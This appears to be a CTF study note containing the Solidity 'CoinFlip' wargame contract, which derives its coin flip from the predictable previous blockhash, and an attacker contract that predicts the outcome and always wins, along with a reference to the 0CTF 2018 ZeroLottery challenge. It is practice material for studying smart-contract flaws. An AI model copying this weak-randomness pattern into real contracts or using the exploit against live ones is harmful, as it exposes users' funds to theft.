 ```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hack{
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  address instance_address = ContractAddress;
  CoinFlip c = CoinFlip(instance_address);
  
  function exploit() public {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    c.flip(side);
  }
}
```

### 題目

- 0CTF Final 2018 : ZeroLottery
